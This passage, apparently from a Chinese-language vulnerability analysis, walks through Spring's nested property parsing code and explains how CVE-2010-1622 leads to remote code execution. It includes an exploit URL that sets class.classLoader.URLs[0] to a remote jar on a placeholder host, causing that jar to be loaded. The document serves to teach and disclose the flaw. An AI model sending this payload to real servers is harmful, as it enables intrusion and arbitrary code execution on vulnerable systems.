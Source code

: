 ```plain
        }
    }
```

来看看 getFirstNestedPropertySeparatorIndex 方法：

```plain
private static int getNestedPropertySeparatorIndex(String propertyPath, boolean last) {
        boolean inKey = false;
    // 获取对应的属性的长度
        int length = propertyPath.length();
        int i = (last ? length - 1 : 0);
        while (last ? i >= 0 : i < length) {
      // 对所有的字符遍历进行解析，这里增加一个 inKey 的 flag，要
          // 对[ 和 ] 符号做成对的判断
            switch (propertyPath.charAt(i)) {
                case PropertyAccessor.PROPERTY_KEY_PREFIX_CHAR:
                case PropertyAccessor.PROPERTY_KEY_SUFFIX_CHAR:
                    inKey = !inKey;
                    break;
                case PropertyAccessor.NESTED_PROPERTY_SEPARATOR_CHAR:
          // 如果出现'.' ,说明存在嵌套属性，并且 inKey =false ,说明在这之前[ ] 是成对匹配的
                // 返回对应的 index 位置
                    if (!inKey) {
                        return i;
                    }
            }
            if (last) {
                i--;
            }
            else {
                i++;
            }
        }
        return -1;
    }
```

在该方法中首先会获取属性的长度，然后对所有的字符遍历解析，并且对指示属性键的开始符号`[`进行成对判断，如果在路径中出现了`.`，那么认为存在嵌套属性，然后返回 getPropertyAccessorForPropertyPath 到方法，去递归处理嵌套属性。

到这里相信大家就明白是怎么一回事了，所以如果我们想通过 class 去调用 classLoader 的属性，只需要通过 class.classLoader 的方式即可。

并且前面我们也提到了可以通过 Java 的内省来赋值，所以我们只需要找到 classLoader 中一个可以利用的属性，就可以达到我们想要的目的——RCE。

对于 CVE-2010-1622，利用的方式是

`http://localhost:8080/index?class.classLoader.URLs[0]=jar:http://xxxx.com/exp.jar!/`

setPropertyValue 将`jar:http://xxxx.com/exp.jar!/`参数传到 URLs\[\]中，然后经过 jsp 页面渲染时，通过一些列类的调用，最终对 exp.jar 进行了加载，触发了 RCE。

CVE-2010-1622 漏洞过后，Spring 官方和 Tomcat 的官方都对漏洞进行了修复。

Tomcat 的做法是，在 6.0.28 版本后把 getURLs 方法返回的值改成了 clone 的，这使的我们获得的 clone 的值无法修改 classloader 中的 URLs\[\]
